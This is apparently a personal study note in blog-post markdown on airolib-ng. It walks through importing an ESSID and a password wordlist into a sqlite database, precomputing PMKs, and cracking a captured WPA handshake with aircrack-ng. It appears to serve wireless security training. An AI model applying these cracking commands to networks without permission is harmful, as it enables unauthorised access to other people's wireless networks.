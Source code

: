 ```yaml
---
description: >-
  Airolib-ng (Cracking PMKs)
title:  Airolib-ng (Cracking PMKs)         # Add title here
date: 2023-09-26 08:00:00 -0600                           # Change the date to match completion date
categories: [18 Wireless, Cracking Attacks]                     # Change Templates to Writeup
tags: [wireless, airolib-ng]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


### Airolib-ng

Airolib-ng is a tool designed to store and manage ESSID and password lists, compute their Pairwise Master Keys (PMKs) and use them in WPA/WPA2 cracking through sqlite3.

```bash
# create a text file containing the ESSID of the target AP
echo wifu > essid.txt

# import the text file into an airolib-ng database
airolib-ng wifu.sqlite --import essid essid.txt

# info about database (ESSIDs and stored passwords)
airolib-ng wifu.sqlite --stats

# import a dictionary of passwords (ignores those shorter than 8 chars and larger than 63 chars, since they are not valid WPA passphrases)
airolib-ng wifu.sqlite --import passwd /usr/share/john/password.lst

# calculate the PMK corresponding to each inported password
airolib-ng wifu.sqlite --batch

#crack using a db
aircrack-ng -r wifu.sqlite wpa1-01.cap
```